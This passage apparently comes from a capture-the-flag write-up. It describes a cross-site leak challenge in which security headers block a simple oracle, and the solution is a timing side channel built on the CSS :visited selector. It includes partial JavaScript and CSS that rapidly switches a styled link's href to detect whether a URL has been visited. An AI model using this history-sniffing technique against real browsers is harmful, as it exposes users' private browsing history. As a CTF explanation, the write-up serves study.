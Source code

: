 However, in this case the authors included the following headers, making it harder to use such a simpler oracle
```js
app.use((req, res, next) => {
	res.set('X-Frame-Options', 'deny');
	res.set('X-Content-Type-Options', 'nosniff');
	res.set('Cache-Control', 'no-store');
	next()
})

```

`X-Content-Type-Options` will basically raise errors since the endpoint returns `text/html` as a `content-type`, so loading tags with that will return 
`Refused to execute script from 'http://localhost:21111/test' because its MIME type ('text/html') is not executable, and strict MIME type checking is enabled.```

![image](https://github.com/ixSly/CTFs/assets/32583633/4a61004c-a905-4773-a7ab-f3bcb6de8acb)

# The Oracle
The intended solution was a bug, [reported](https://issues.chromium.org/issues/40091173) and actioned in chromium bugs, demonstrating how the leak is possible. The oracle leverages the `:visited` CSS selector to determine if a specific URL has been visited. By applying different styles to visited links, the browser reveals the visit status through performance differences. The process starts by defining a link with complex styles that make the browser work harder to render it
```css
#target {
    color: white;
    background-color: white;
    outline-color: white;
}
#target:visited {
    color: #feffff;
    background-color: #fffeff;
    outline-color: #fffffe;
}
```

The link's href is oscillated between the URL we want to leak and a known `unvisited URL` randomly generated, forcing the browser to repaint the link each time. 

```js
function generateUnvisitedUrl () {
    return 'https://' + Math.random() + '/' + Date.now();
}
.....
function startOscillatingHref(testUrl) {
    oscillateInterval = setInterval(function() {
        targetLink.href = isPointingToBasisUrl ? testUrl : basisUrl;
        isPointingToBasisUrl = !isPointingToBasisUrl;
    }, 0);
}

function stopOscillatingHref() {
    clearInterval(oscillateInterval);
    targetLink.href = basisUrl;
    isPointingToBasisUrl = true;
}
```
